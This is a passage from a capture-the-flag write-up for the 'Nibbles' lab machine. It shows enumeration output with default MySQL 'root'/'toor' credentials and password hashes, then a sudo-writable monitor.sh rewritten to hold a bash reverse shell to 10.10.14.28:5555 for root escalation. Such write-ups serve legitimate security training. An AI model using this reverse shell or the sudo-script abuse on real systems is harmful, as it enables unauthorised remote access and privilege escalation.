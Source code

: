 We find credentials in the MySQL database using default 'root'/'toor' credentials:

```
===================================( Software Information )===================================                                                                                               
[+] MySQL version                                                                                                                                                                            
mysql  Ver 14.14 Distrib 5.7.20, for Linux (x86_64) using  EditLine wrapper

[+] MySQL connection using default root/root ........... No
[+] MySQL connection using root/toor ................... Yes
User    Host    authentication_string
root    localhost       *9CFBBC772F3F6C106020035386DA5BBBF1249A11
mysql.session   localhost       *THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE
mysql.sys       localhost       *THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE
debian-sys-maint        localhost       *0B46F5EC336AFB411DB534D6A50EA98C619B0DE4
[+] MySQL connection using root/NOPASS ................. No
[+] Looking for mysql credentials and exec
From '/etc/mysql/mysql.conf.d/mysqld.cnf' Mysql user: user              = mysql
Found readable /etc/mysql/my.cnf
!includedir /etc/mysql/conf.d/
!includedir /etc/mysql/mysql.conf.d/
```

Also we find sudo execution rights for the nibbler account:

```
[+] Testing 'sudo -l' without password & /etc/sudoers
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#commands-with-sudo-and-suid-commands
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

We find the user flag:

![ImgPlaceholder](user-flag.jpeg)

The file /home/nibbler/personal/stuff/monitor.sh is not at the location, however we find a personal.zip file we unzip:

```
unzip personal.zip
Archive:  personal.zip
   creating: personal/
   creating: personal/stuff/
  inflating: personal/stuff/monitor.sh  
```

We execute this command to change the monitor script:

```
echo '#!/bin/bash' > monitor.sh
echo 'bash -i >& /dev/tcp/10.10.14.28/5555 0>&1' >> monitor.sh
cat monitor.sh
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.28/5555 0>&1
ls -l 
total 4
-rwxrwxrwx 1 nibbler nibbler 54 Jan  8 22:45 monitor.sh
```
